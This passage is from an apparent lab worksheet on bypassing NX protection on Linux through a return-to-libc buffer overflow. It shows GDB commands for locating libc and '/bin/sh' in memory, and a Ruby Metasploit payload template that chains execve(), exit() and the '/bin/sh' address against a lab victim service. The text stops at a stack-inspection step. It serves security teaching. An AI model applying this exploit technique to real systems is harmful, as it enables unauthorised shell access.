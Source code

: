 ```bash
(gdb) info proc map
```

The **/lib32/libc-2.28.so** library is loaded into **virtual process memory** at the memory address ==edit:Libc-Start-Address==

==action: Use GDB to calculate the address of `"/bin/sh"` in memory:==

```bash
(gdb) x/s ==edit:Libc-Start-Address== + ==edit:BinSh-Offset==
```

If you have the correct start address \+ offset, you should see the string `"/bin/sh"` with its precise memory address. Note down the memory address as ==edit:BinSh-Address==. 

Close the debugging session.

==VM: On the Kali Linux VM (attacker/exploit development)==

==action: Update your script:==

```ruby
  offset = "==edit:Offset-Value=="
  # eip = "BBBB"
  execve = ["==edit:Execve-Address=="].pack('V')   # mem addr of execve()
  eip = execve
  ret_exit = ["==edit:Exit-Address=="].pack('V') # return address i.e. mem addr of exit() function
  bin_sh = ["==edit:BinSh-Address=="].pack('V')   # mem addr of "/bin/sh" string
  # zero = [0x00000000].pack('V')     # mem addr that contains 0x00000000 
  function
  bad = "A" * offset + eip + ret_exit + bin_sh + "C" * 30 #+ zero + zero
```

> Tip: Remove the "" around hex addresses: use `[0x00000000].pack('V')` rather than `["0x00000000"].pack('V')`

==action: Save your script file, reload metasploit, then run the exploit==.

==VM: On your Desktop Debian Linux VM (victim service)==

==action: Attach the debugger then set a breakpoint to freeze execution at execve()==.

```bash
gdb program -p `pgrep -n Ch_nx_BOF_1`
```

```bash
(gdb) b execve
```

```bash
(gdb) c
```

==VM: On the Kali Linux VM (attacker/exploit development)==

==action: Hit enter==

==VM: On your Desktop Debian Linux VM (victim service)==

==action: Inspect the stack:== 


[image-1]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-1.png
[image-2]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-2.png
[image-3]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-3.png
[image-4]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-4.png
[image-5]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-5.png
[image-6]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-6.png
[image-7]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-7.png
[image-8]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-8.png
[image-9]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-9.png
[image-10]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-10.png
[image-11]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-11.png
[image-12]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-12.png
[image-13]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-13.png
[image-14]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-14.png
[image-15]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-15.png
[image-16]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-16.png
[image-17]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-17.png
[image-18]: {{ site.baseurl }}/assets/images/software_security_exploitation/6_linux_nx_bypass/image-18.png